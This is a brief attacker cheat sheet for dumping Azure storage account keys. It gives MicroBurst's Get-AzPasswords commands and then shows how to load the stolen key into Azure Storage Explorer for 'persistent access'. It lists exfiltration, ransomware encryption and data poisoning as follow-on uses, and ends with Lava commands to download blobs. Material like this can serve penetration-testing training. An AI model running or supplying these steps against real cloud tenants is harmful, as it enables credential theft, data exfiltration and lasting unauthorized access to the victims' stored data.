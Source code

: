 # Dumping Azure storage keys

## Tools: Microburst

### Steps:

# 1) MicroBurst

 - Connect-AzAccount (Authenticate with the Contributor access account)

 - Import-Module MicroBurst.psm1

 - Get-AzPasswords -AutomationAccounts N -AppServices N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView (Dump Azure storage instances. This function can also be used to extract data plane keys for other PaaS services, but we will exclude those services for now by using the N option for those parameters)

 - When prompted, select the appropriate Azure subscription and click OK

 - Credentials got dumped from storage accounts. Can be used for hunting more credentials, or exfiltrate data, etc...

 - choco install microsoftazurestorageexplorer -y (Install Microsoft Azure storage Explorer)

 - On start button, search for the storage explorer, then click on the app

 - In the connect to Azure Storage window, select storage account

 - In the Select Authentication Method window, select Account name and key then click Next

 - In the Enter Connection Info window, enter the following information:

#### 1) Display name: DISPLAY_NAME

#### 2) Account Name: ACCOUNT_NAME

#### 3) Account Key: ACCOUNT_KEY

 - Click Next

 - In the Summary window, click Connect

### Review the files and note that we now have persistent access to the storage account and the content of all its services. This gives a lot of room for an attacker to cause damage. For example, an attacker could encrypt data in the service in a ransomware attack, inject malicious data into NoSQL table stores, or poison applications using storage queues

# 2) Lava

 - python3 Lava.py

 - exec stg_blob_download (Execute the module to dump)
